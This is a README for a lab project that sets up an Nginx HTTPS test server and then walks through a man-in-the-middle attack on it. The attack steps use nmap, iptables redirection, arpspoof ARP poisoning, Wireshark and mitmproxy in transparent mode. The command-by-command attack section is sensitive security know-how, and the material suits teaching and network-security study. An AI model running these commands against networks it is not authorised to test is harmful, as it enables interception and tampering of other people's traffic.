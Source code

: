 # Man-in-the-Middle Attack via ARP Spoofing

This project explores Man-in-the-Middle attack techniques using ARP spoofing to intercept, analyze, and modify network traffic between a client and a server.

- [Server Configuration](#1-Server-Configuration)
- [MitM Configuration](#2-MitM-Configuration)

## 1. Server Configuration

### 1.1 Installing Nginx

```
$ sudo apt install nginx -y
```

### 1.2 Generating a Self-Signed Certificate

Create a directory for SSL certificates:

```
$ sudo mkdir -p /etc/nginx/ssl
```

Generate a self-signed certificate using OpenSSL:

```
$ sudo openssl req -x509 -nodes -days 365 -newkey rsa:2048 \
-keyout /etc/nginx/ssl/nginx-selfsigned.key \
-out /etc/nginx/ssl/nginx-selfsigned.crt
```

**Parameter Descriptions**:

- `-x509`: creates a certificate in x509 format.
- `-nodes`: disables passphrase request for the private key.
- `-days 365`: sets the certificate validity period to 365 days.
- `-newkey rsa:2048`: generates a new 2048-bit RSA key.

### 1.3 Configuring Nginx

```
$ sudo nano /etc/nginx/sites-available/default
```

Add the following configuration, replacing `<IP_addr>` with the server’s IP address:

```nginx
server {
    listen 80 default_server;
    listen [::]:80 default_server;
    server_name <IP_addr>;

    # Redirect from HTTP to HTTPS
    return 301 https://$host$request_uri;
}

server {
    listen 443 ssl;
    server_name <IP_addr>;

    ssl_certificate /etc/nginx/ssl/nginx-selfsigned.crt;
    ssl_certificate_key /etc/nginx/ssl/nginx-selfsigned.key;

    location / {
        proxy_pass http://localhost:8080;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header X-Forwarded-Proto $scheme;
    }
}
```

### 1.4 Verifying and Restarting Nginx

Verify the configuration and restart the service:

```
$ sudo nginx -t
$ sudo systemctl restart nginx
```

### 1.5 Starting Docker Containers

Clone the repository and start the containers:

```
$ git clone https://github.com/SenapeDev/CySec.git
$ cd server
$ docker compose up --build -d
```

### 1.6 Managing HTTPS Mode

To enable or disable HTTPS using the Makefile:

```
$ make https-on
$ make https-off
```

- `https-on`: enables redirection to HTTPS.
- `https-off`: disables HTTPS redirection, returning to HTTP.

---

## 2. MitM Configuration

### 2.1 Installing Nmap

```
$ sudo apt install nmap -y
```

### 2.2 Scanning the Local Network with Nmap

To find the IP address of the host running the website within the local network, execute:

```
$ nmap -p 80,443 --open -sV <IP_range>
```

**Parameter Descriptions**:

- `-sV` detects active services and attempts to identify the web application in use.
- `--open` shows only hosts with open ports.
- `<IP_range>` is the IP address range for scanning.

### 2.3 Enabling Packet Forwarding

Enable packet forwarding to allow packet transmission between the server and the victim:

```
# echo 1 > /proc/sys/net/ipv4/ip_forward
```

### 2.4 Configuring iptables for Traffic Redirection

Redirect HTTP traffic to port 8080 (used by `mitmproxy`):

```
$ sudo iptables -t nat -A PREROUTING -p tcp -s <src_IP> --dport 80 -j REDIRECT --to-port 8080
```

This command uses the `nat` table in iptables to redirect traffic intended for port 80 on the specified address to port 8080. These changes are temporary and will be removed upon reboot.

### 2.5 Checking Set Rules

To check active `iptables` rules:

```
$ sudo iptables -t nat -L -v -n
```

The command lists all rules in the iptables `nat` table with details (`-v`) and without name resolution (`-n`).

### 2.6 Installing dsniff

Install `dsniff` to perform ARP spoofing:

```
$ sudo apt install dsniff
```

### 2.7 Performing ARP Poisoning

Use `arpspoof` to trick the victim into thinking they are communicating with the server:

```
# arpspoof -i <interface> -t <src_IP> <dest_IP>
```

This command sends ARP packets to the victim’s IP address (`<src_IP>`) to set the `<dest_IP>` (the impersonated server) as the sender, using the specified network interface (`<interface>`).

### 2.8 Installing Wireshark

To capture and analyze network traffic, install Wireshark:

```
$ sudo apt install wireshark -y
```

### 2.9 Capturing Packets with Wireshark

Start Wireshark to capture traffic:

```
$ sudo wireshark
```

### 2.10 Installing mitmproxy

Install `mitmproxy` to manipulate requests:

```
$ pip install mitmproxy
```

### 2.11 Installing the Script for mitmproxy

```
$ git clone https://github.com/SenapeDev/CySec.git
```

### 2.12 Intercepting and Modifying Requests with mitmproxy

Run `mitmproxy` in transparent mode to intercept and modify HTTP traffic:

```
$ cd mitm
$ mitmproxy -s main.py --mode transparent
```

This command starts `mitmproxy` in transparent mode (`--mode transparent`) to intercept traffic without any configuration on the client.
